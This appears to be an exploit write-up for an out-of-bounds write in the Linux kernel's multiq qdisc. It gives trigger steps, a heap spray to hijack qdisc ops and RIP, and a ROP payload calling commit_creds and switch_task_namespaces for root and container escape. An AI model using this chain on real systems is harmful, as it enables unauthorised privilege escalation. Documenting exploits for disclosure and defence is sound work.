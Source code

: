 ### Triggering Vulnerability

This vulnerability is an OOB write vulnerability, where an arbitrary qdisc pointer can be used to overwrite the next object. An attacker could use this overwritten pointer to perform privilege escalation.

```c
static int multiq_tune(struct Qdisc *sch, struct nlattr *opt,
		       struct netlink_ext_ack *extack)
{
	struct multiq_sched_data *q = qdisc_priv(sch);
	struct tc_multiq_qopt *qopt;
	struct Qdisc **removed;
	int i, n_removed = 0;

	if (!netif_is_multiqueue(qdisc_dev(sch)))
		return -EOPNOTSUPP;
	if (nla_len(opt) < sizeof(*qopt))
		return -EINVAL;

	qopt = nla_data(opt);

	qopt->bands = qdisc_dev(sch)->real_num_tx_queues;

	removed = kmalloc(sizeof(*removed) * (q->max_bands - q->bands),     // [1]
			  GFP_KERNEL);
	if (!removed)
		return -ENOMEM;

	sch_tree_lock(sch);
	q->bands = qopt->bands;
	for (i = q->bands; i < q->max_bands; i++) {             // [2]
		if (q->queues[i] != &noop_qdisc) {
			struct Qdisc *child = q->queues[i];

			q->queues[i] = &noop_qdisc;
			qdisc_purge_queue(child);
			removed[n_removed++] = child;
		}
	}
    ...
}
```

When updating a qdisc in the `multiq_tune`, remove the child qdisc of the multiq qdisc if the value of `qopt->bands` is smaller than the value of `q->bands`. To do this, it use the `q->bands` to assign a `removed` [1]. Then update `q->bands` to `qopt->bands` and store the child qdisc to be removed in `removed` [2]. At this time, `removed` was allocated using `q->bands` and the `for` loop uses `qopt->bands`, so if `qopt->bands` is less than `q->bands`, an out-of-bounds write occurs.

To trigger vulenrability,

- Create veth device with numtxqueues 512.
- Change numtxqueues to 465 (a smaller number than before) to avoid a kernel panic during the exploit.
- Create multiq qdisc for veth device. The numtxqueue (465) is stored in `q->bands`.
- Change numtxqueues to 396 (a smaller number than before).
- Modify Qdisc. This results in the OOB write. `q->bands` and `qopt->bands` are `465` and `396`, respectively.

### KASLR Bypass

The kernel base address is obtained through a timing side-channel attack.

### RIP Control

We trigger the vulnerability to overwrite `qdisc->ops` with the child qdisc address. We then free the child qdisc and spray the payload to take control of the RIP.

```c
	qopt->bands = qdisc_dev(sch)->real_num_tx_queues;

	removed = kmalloc(sizeof(*removed) * (q->max_bands - q->bands),
			  GFP_KERNEL);
	if (!removed)
		return -ENOMEM;

	sch_tree_lock(sch);
	q->bands = qopt->bands;
	for (i = q->bands; i < q->max_bands; i++) {
		if (q->queues[i] != &noop_qdisc) {
			struct Qdisc *child = q->queues[i];

			q->queues[i] = &noop_qdisc;
			qdisc_purge_queue(child);
			removed[n_removed++] = child;                   // [3]
		}
	}

	sch_tree_unlock(sch);

	for (i = 0; i < n_removed; i++)
		qdisc_put(removed[i]);                              // [4]
	kfree(removed);

	for (i = 0; i < q->bands; i++) {
		if (q->queues[i] == &noop_qdisc) {
			struct Qdisc *child, *old;
			child = qdisc_create_dflt(sch->dev_queue,       // [5]
						  &pfifo_qdisc_ops,
						  TC_H_MAKE(sch->handle,
							    i + 1), extack);
			if (child) {
				sch_tree_lock(sch);
				old = q->queues[i];
				q->queues[i] = child;
				if (child != &noop_qdisc)
					qdisc_hash_add(child, true);

				if (old != &noop_qdisc)
					qdisc_purge_queue(old);
				sch_tree_unlock(sch);
				qdisc_put(old);
			}
		}
	}
```

When creating a multiq qdisc, new child qdisks are created in `kmalloc-512` [5]. Then, when `q->bands` is updated to 396, `removed` is allocated in `kmalloc-512` ((512-465)*8) and can be located before the previously allocated child qdisc. Due to the vulnerability, the child qdisc to be overwritten with `Qdisc *` in [3], causing `qdisc->ops` to overwrite it with the address of the child qdisc being removed. The overwritten qdisc is freed in [4], so the child qdisc's ops points to the freed address.

After the child qdisc is free, spray `ctl_buf` and `struct user_key_payload` into `kmalloc-512` to create a fake ops.

```c
static void __qdisc_destroy(struct Qdisc *qdisc)
{
	const struct Qdisc_ops  *ops = qdisc->ops;

#ifdef CONFIG_NET_SCHED
	qdisc_hash_del(qdisc);

	qdisc_put_stab(rtnl_dereference(qdisc->stab));
#endif
	gen_kill_estimator(&qdisc->rate_est);

	qdisc_reset(qdisc);                                                 // [6]

	if (ops->destroy)
		ops->destroy(qdisc);

	module_put(ops->owner);
	netdev_put(qdisc_dev(qdisc), &qdisc->dev_tracker);

	trace_qdisc_destroy(qdisc);

	call_rcu(&qdisc->rcu, qdisc_free_cb);
}
```

```c
void qdisc_reset(struct Qdisc *qdisc)
{
	const struct Qdisc_ops *ops = qdisc->ops;

	trace_qdisc_reset(qdisc);

	if (ops->reset)
		ops->reset(qdisc);                          // [7]

	__skb_queue_purge(&qdisc->gso_skb);
	__skb_queue_purge(&qdisc->skb_bad_txq);

	qdisc->q.qlen = 0;
	qdisc->qstats.backlog = 0;
}
```

Next, destroying the qdisc calls `__qdisc_destroy()`, which calls `qdisc_reset()` [6]. `qdisc_reset()` calls the `ops->reset()` by referencing the fake `qdisc->ops`. As a result, we can control the RIP to the desired value. In the exploit, the `mov_rsp_rbp_pop_rbp_ret` gadget is used to pivot the `rsp` register to the ROP payload.

### Post RIP

Store the ROP payload below to the `kmalloc-512`, and execute it.

```c
void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = 0;

    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 0;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    data[i++] = kbase + pppr;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = 0;                  // stack pivot gadget

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = 1;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
    data[i++] = _user_cs;           // user_cs
    data[i++] = _user_rflags;       // user_rflags
    data[i++] = _user_sp;           // user_sp
    data[i++] = _user_ss;           // user_ss
}
```